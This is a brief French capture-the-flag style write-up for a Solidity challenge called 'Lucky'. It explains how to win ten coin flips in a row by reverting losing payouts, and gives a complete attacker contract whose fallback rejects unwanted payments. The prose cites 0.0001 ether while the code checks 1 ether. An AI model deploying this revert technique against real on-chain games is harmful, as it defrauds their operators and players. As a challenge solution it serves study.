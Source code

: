 # Lucky

## Objectif
L'objectif est de gagner 10 fois consécutivement.

## Détails
Chaque fois que nous jouons, nous avons une chance sur 2 de gagner. Heureusement, que l'on perde ou gagne, le smart contract "lucky" nous envoie une transaction. Il suffit de révoquer (revert) la transaction qui ne nous convient pas.

## Attaque

Ainsi, en fonction de la valeur de la transaction (dans notre cas : 0,0001 ether), nous pouvons révoquer la transaction et annuler cette défaite. Par conséquent, il suffit d'appeler autant de fois qu'il faut pour accumuler 10 victoires consécutives.

Pour résoudre ce défi, il suffit d'écrire ce fameux smart contract : 

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

interface Game{
    function play(uint256 guess) external payable;
}

contract attack {

    Game game;

    constructor(address _game) payable{
        game = Game(_game);
    }

    function play() payable public{
        game.play{value :1 ether}(1);
    }

    fallback() payable external{
        if (msg.value != 1 ether){
            revert();
        }
    }
}
```

MK.
